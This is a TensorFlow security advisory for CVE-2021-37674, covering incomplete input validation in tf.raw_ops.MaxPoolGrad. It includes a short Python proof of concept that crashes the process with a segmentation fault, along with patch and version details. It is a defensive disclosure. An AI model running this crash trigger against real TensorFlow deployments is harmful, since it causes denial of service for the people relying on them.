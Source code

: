 ## TFSA-2021-148: Incomplete validation in `MaxPoolGrad`

### CVE Number
CVE-2021-37674

### Impact
An attacker can trigger a denial of service via a segmentation fault in
`tf.raw_ops.MaxPoolGrad` caused by missing validation:

```python
import tensorflow as tf

tf.raw_ops.MaxPoolGrad(
  orig_input = tf.constant([], shape=[3, 0, 0, 2], dtype=tf.float32),
  orig_output = tf.constant([], shape=[3, 0, 0, 2], dtype=tf.float32),
  grad = tf.constant([], shape=[3, 0, 0, 2], dtype=tf.float32),
  ksize = [1, 16, 16, 1],
  strides = [1, 16, 18, 1],
  padding = "EXPLICIT",
  explicit_paddings = [0, 0, 14, 3, 15, 5, 0, 0])
```

The
[implementation](https://github.com/galeone/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/maxpooling_op.cc)
misses some validation for the `orig_input` and `orig_output` tensors.

The fixes for
[CVE-2021-29579](https://github.com/galeone/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-068.md)
were incomplete.

### Patches
We have patched the issue in GitHub commit
[136b51f10903e044308cf77117c0ed9871350475](https://github.com/galeone/tensorflow/commit/136b51f10903e044308cf77117c0ed9871350475).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
